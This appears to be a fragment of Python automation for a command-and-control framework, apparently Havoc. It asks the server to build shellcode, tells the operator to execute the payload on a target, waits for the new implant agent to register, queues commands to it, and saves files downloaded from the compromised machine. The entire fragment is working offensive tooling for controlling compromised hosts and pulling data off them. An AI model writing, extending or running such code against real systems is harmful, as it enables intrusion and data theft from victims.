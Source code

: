 ```python
                            pkg["Head"]["Time"] = timestamp()
                            await ws.send(json.dumps(pkg))
                            payload_requested = True
                            print("[>] requested shellcode build")
                elif subevent == LISTENER_ERROR and name == LISTENER_NAME:
                    print(f"[-] listener error: {info.get('Error', 'unknown error')}")
            elif event == GATE_TYPE and subevent == GATE_STAGELESS:
                if "PayloadArray" in info:
                    data = base64.b64decode(info["PayloadArray"])
                    SHELLCODE_PATH.parent.mkdir(parents=True, exist_ok=True)
                    SHELLCODE_PATH.write_bytes(data)
                    payload_saved = True
                    baseline_agents = set(seen_agents)
                    print(f"[+] saved shellcode to {SHELLCODE_PATH} ({len(data)} bytes)")
                    print("[*] execute the payload on the target to register a new agent")
                elif "Message" in info:
                    print(f"[builder] {info.get('MessageType', 'Info')}: {info['Message']}")
            elif event == SESSION_TYPE:
                if subevent == SESSION_NEW:
                    name = info.get("NameID")
                    if name:
                        seen_agents.add(name)
                        if payload_saved and agent_id is None and name not in baseline_agents:
                            agent_id = name
                            print(f"[+] new agent registered: {agent_id}")
                            workflow = build_workflow(agent_id)
                            await maybe_queue_next()
                elif subevent == SESSION_OUTPUT and agent_id and info.get("DemonID") == agent_id:
                    if not current_step or info.get("CommandID") != current_step["command_id"]:
                        continue

                    output_data = base64.b64decode(info.get("Output", ""))
                    text = output_data.decode("utf-8", errors="ignore")

                    if current_step.get("download"):
                        try:
                            callback = json.loads(text)
                        except json.JSONDecodeError:
                            if text.strip():
                                print(f"[{current_step['name']}] {text.strip()}")
                            continue

                        if callback.get("MiscType") == "download" and "MiscData" in callback:
                            content = base64.b64decode(callback["MiscData"])
                            remote_name_b64 = callback.get("MiscData2", "").split(";", 1)[0]
                            if remote_name_b64:
                                remote_name = base64.b64decode(remote_name_b64).decode("utf-8", errors="ignore")
                            else:
                                remote_name = current_step["download"]
                            out_path = ARTIFACT_DIR / pathlib.Path(remote_name).name
                            out_path.write_bytes(content)
                            print(f"[+] downloaded {remote_name} -> {out_path}")
                            current_step = None
                            await maybe_queue_next()
                        else:
                            if "Message" in callback:
                                print(f"[{current_step['name']}] {callback['Message']}")
                    else:
                        if current_step.get("outfile"):
                            current_step["outfile"].parent.mkdir(parents=True, exist_ok=True)
                            current_step["outfile"].write_text(text, encoding="utf-8")
                            print(f"[+] wrote output to {current_step['outfile']}")
```
